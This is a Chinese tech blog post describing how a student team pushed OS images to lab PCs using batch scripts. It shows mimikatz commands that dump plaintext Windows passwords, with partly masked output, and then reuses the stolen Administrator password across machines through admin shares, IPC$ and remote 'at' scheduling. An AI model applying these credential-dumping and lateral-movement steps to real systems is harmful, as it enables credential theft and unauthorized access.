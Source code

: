 
title: 批处理机房文件批量传输
date: 2015-10-17 00:00:00 +0800
tags: [bat]
categories: 
---

## <a name="89ucqc"></a>题记

计算机维护队将于次日在机房进行队员第一次培训会，培训会上的队员实操过程则需要使用到win7和PE镜像，工作人员（委员）不得不提前拷贝好镜像到每一台机子。于是便有了机房内通过网络批量传输文件的想法，实现之后可以大大减轻工作量，传输速度上瓶颈为100Mbps（机房网络配置），与普通USB3.0的U盘传输速率相比确实低了一大截，在传输速率上似乎不占优势，因此我们将多台主机作为源点传输数据，并行传输数据，大大提升了时间效率。

<div data-type="alignment" data-value="center" style="text-align:center">
  <div data-type="p">
    <div id="sdxuoz" data-type="image" data-display="block" data-align="center" data-src="https://cdn.yuque.com/yuque/0/2018/png/103147/1530282323573-b3ec65c0-c8fc-4dec-a92f-4da95966b6da.png" data-width="391">
      <img src="https://cdn.yuque.com/yuque/0/2018/png/103147/1530282323573-b3ec65c0-c8fc-4dec-a92f-4da95966b6da.png" width="391" />
    </div>
  </div>
  <div data-type="p"></div>
</div>

<!-- more -->

### <a name="hxqrtl"></a>机遇阶段

很凑巧，在同类型的机房中上实验课的时候一不小心执行了以下powershell指令：

```
Get-WmiObject -Class Win32_Share -Computername [computername]
# [computername] 代表主机名
```

意外的收获，默认共享居然没有被关闭，切安全策略~[偷笑]!

```
Name     Path                          Description
----     ----                          -----------
ADMIN$   C:\Windows                    远程管理
C$       C:\                           默认共享
D$       D:\                           默认共享
IPC$                                   远程 IPC
```

然而不出所料，我尝试通过net use空连接到旁边的机子时，被无情的拒之门外。要知道机房的电脑都是自带默认密码的。

```
net use z: \\[computername]\D$

为 '[computername]' 输入用户名:
发生系统错误 1223。
操作已被用户取消。
```

好吧，确实是个棘手的问题，因为不可能提前手动更改用户密码，因为机房的电脑自带还原程序（且不可恶意破坏），因此不得不废弃这个方案。于是编者剑走偏锋，掏出了一代神器[mimikatz\_trunk](http://blog.gentilkiwi.com/presentations)，利用这个神器(原理是通过彩虹表破解NTLM加密口令)可以轻易获取windows系统账户的明文密码。

#### <a name="uxiodh"></a>下载链接

* [Binaires](https://github.com/gentilkiwi/mimikatz/releases/latest)

* [Sources](https://github.com/gentilkiwi/mimikatz)

使用说明详参[README.md](https://github.com/gentilkiwi/mimikatz/blob/master/README.md)，下载后或编译后程序目录如下：



![image.png | left | 657x169](https://cdn.yuque.com/yuque/0/2018/png/103147/1530282348556-f8855387-6730-4b14-ae05-6d72a8fecffa.png "")


我们接着运行如下命令即可获得账户明文密码：

```
# 提升权限
mimikatz # privilege::debug
Privilege '20' OK

# 获取密码
mimikatz # sekurlsa::logonpasswords

```

获取密码后部分结果如下：

```
# *是编者自己打上的马赛克，命令执行后输出的全为明文，下同
Authentication Id : 0 ; 298372 (00000000:00048d84)
Session           : Interactive from 1
User Name         : ******
Domain            : ****
Logon Server      : (null)
Logon Time        : 2015-10-16 20:54:11
SID               : S-1-5-21-*******-********-*********-1004
        msv :
         [00000003] Primary
         * Username : ******@outlook.com
         * Domain   : MicrosoftAccount
         * Flags    : I00/N01/L00/S01
         * NTLM     : 198469ad0**********ed7ddfadd94
         * SHA1     : 1018ac5781ab260******8b9d57fae11d3313a86
        tspkg :
         * Username : ******@outlook.com
         * Domain   : MicrosoftAccount
         * Password : ********
        wdigest :
         * Username : ******@outlook.com
         * Domain   : MicrosoftAccount
         * Password : ******
        kerberos :
         * Username : ******@outlook.com
         * Domain   : MicrosoftAccount
         * Password : (null)
        ssp :
        credman :
         [00000000]
         * Username : (null)
         * Domain   : MicrosoftOffice16_Data:SSPI:lxstart@outlook.com
         * Password : ******

```

### <a name="k6o6ss"></a>程序设计

既然获取到了一台机子的明文密码（账户名默认为Administrator），由于机房采用统一镜像进行安装，因此默认账户信息完全一致，那么，就可以跳到批量传输的阶段了。那么我们来做一个详尽的规划：[篇幅有限，下面只提供关键代码]

#### <a name="d8iolx"></a>获取局域网内的主机名列表

原理：通过net view获取局域网主机列表后进行字符串过滤筛选，得到最终的主机名列表并写入hosts.ini文件。

```
(for /f "eol=。 skip=3 tokens=1 delims=, " %%i in ('net view') do (
	for /f "tokens=1 delims=\ " %%a in ('echo %%i ^| findstr ^\') do (
		echo %%a
	)
)) >> hosts.ini
```

#### <a name="tnyvtu"></a>建立net use连接

```
# 将网络路径\\[hostname]\d$映射到z:\
net use z: \\[hostname]\d$ "******" /user:"administrator" /persistent:yes
```

在这之前需要先释放z:原本可能存在net use连接：

```
net use z: /delete
```

我们就可以直接通过访问z:来访问到目标机器的D盘根目录并进行文件操作了。

#### <a name="xotpxv"></a>复制文件

推荐使用xcopy命令，参数较简单易懂。

```
# 假设D:\已有win7.iso和PE.iso
xcopy D:\win7.iso Z:\
xcopy D:\PE.iso Z:\
```

#### <a name="odxkpc"></a>批量复制

由于我们已经获取到主机名列表，则我们可以串行批量复制文件。

```
for /f  %%a in (hosts.ini) do (
	echo 正在处理%%a
	call :copyer %%a
	:: 删除映射，释放连接
	net use z: /delete /y
)

# 定义函数
:copyer
net use z: \\%~1\d$ "******" /user:"administrator" /persistent:yes
xcopy D:\win7.iso Z:\
xcopy D:\PE.iso Z:\
```

#### <a name="850vsl"></a>多主机并行处理

将程序放置到多台主机下运行，划分主机名列表片段到不同的主机，则可同时执行不同的文件批量复制的任务。

#### <a name="zdiwbh"></a>最佳方案

这里涉及一种类似于细胞分裂的算法技术，在上面原有的基础上添加更能提高效率的解决方案。假设每人负责部署一台主机（用于批量复制文件），复制完46台机子需要(46-6)/6=7轮，开始说表述的每台机子带宽有限（下面的流程图则以一台源主机为例解释），因此传输速度也难以提升。

更合理的解决方案就是利用所有空闲切有镜像的主机的网络带宽，思路图对比大致如下：

* 传统
    



![image.png | left | 686x459](https://cdn.yuque.com/yuque/0/2018/png/103147/1530282360282-26242597-1bcc-4ccf-a856-19fbd7ba6d09.png "")


* 并行化



![image.png | left | 692x439](https://cdn.yuque.com/yuque/0/2018/png/103147/1530282373553-b57fcc30-f2fc-4d16-b7eb-20431a7cebad.png "")


关键要解决的问题是需要给下一台机器发送指令，分配给每台主机最优的复制队列：通过ipc\$获取远程at和time权限

```
# 建立ipc$连接
net use \\[hostname]\ipc$ "password" /user:"username"

# 获取主机时间，假设为19:00
net time \\[hostname]

# at 设置命令，假设transformListFile.bat包含了计算下一台机子需要复制到的目标队列的算法
at \\[hostname] 19:01 transformListFile.bat

```


